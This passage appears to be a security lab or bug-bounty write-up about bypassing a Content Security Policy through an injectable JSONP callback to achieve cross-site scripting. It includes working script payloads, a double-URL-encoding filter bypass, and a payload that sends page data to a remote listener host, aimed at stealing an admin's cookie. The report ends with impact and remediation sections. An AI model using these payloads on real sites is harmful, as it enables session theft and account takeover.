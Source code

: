 3. However, this is where the endpoint comes into play, due to misconfiguration or other factors, the following usual link 
```matlab
https://docker.gw34908723to.ext.exam.ns.agency/user-list?format=json
```
which returns harmless JSON data, can be changed to: 
```matlab
https://docker.gw34908723to.ext.exam.ns.agency/user-list?format=jsonp
``` 
which now returns type **<u>application/javascript</u>**.  

<br/>
<br/>

4. After discovering an injectable callback parameter, we can now see that the `alert(1)` payload suceeds. The following payload shows this.  

    ~~~html
    </textarea><script src="/user-list?format=jsonp&callback=alert(1);//"><textarea>
    ~~~     

    5. After confirming that the CSP can be bypassed with the unsecured JSONP endpoint, we then craft a URL to try and steal the admins cookie.  

<br/>
6. The payload has been modified to stop the use of `.` character as it is being replaced by `stop` to prevent common XSS attempts, the filter can be bypassed with _double URL encoding_ ie **`%252E -> %2E -> . `**.  

<br/>
7. Example that can return the document's title to a remote request catcher.  

   ```html
   </textarea> <script src="/user-list?format=jsonp&callback=window['location']['replace']('http://listener%252Eml:9447?c%3D'%2Bdocument[%27title%27]);//"></script> <textarea>
   ```

<br/>
8. Unfortunately I got stuck at this point as I have not figured out how to get the admin to visit the test account's profile, as passing the URL `https://docker.gw34908723to.ext.exam.ns.agency/profile` will bring the admin to his own profile instead of the profile with the payload.  
  
<br/>
9. However, I am **certain** if the admin visited the profile with the payload changed to `cookie` the admin's cookie could then be retrieved and used to log in. 

<br/>

### Impact 
**P2 - High**

An attacker can steal cookies from an administrator which would allow them to log in as an admin with higher permissions to the system. 

### Remediation 

Do not return data in the form of `application/javascript` from endpoints if not necessary. Also there should be whitelisting/filtering in place for callback parameters to prevent it from becoming an injection point for cross-site scripting payloads.
  